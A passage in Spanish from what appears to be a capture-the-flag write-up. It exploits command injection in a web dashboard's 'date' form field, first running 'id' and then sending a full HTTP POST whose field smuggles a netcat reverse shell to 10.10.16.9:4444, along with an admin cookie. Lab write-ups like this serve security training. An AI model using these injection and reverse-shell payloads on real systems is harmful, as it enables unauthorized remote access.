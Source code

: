 ```html 


date=2023-09-15;id
```

Resultado:

![Captura](./Imagenes/comand.png)

Explicación: concatenando un comando a la data enviada hemos logrado introducir comandos `id`

---

# Explotación y elevación de privilegios
### Paso 1: Envío de payload a través de POST (con `netcat`)

#### Acción:

Se envía una solicitud POST al servidor con un payload malicioso para ejecutar una reverse shell utilizando `netcat`.

```http
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.11.8:5000
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
Priority: u=0, i
date=2023-09-15;+nc+10.10.16.9+4444+-e+/bin/bash
```
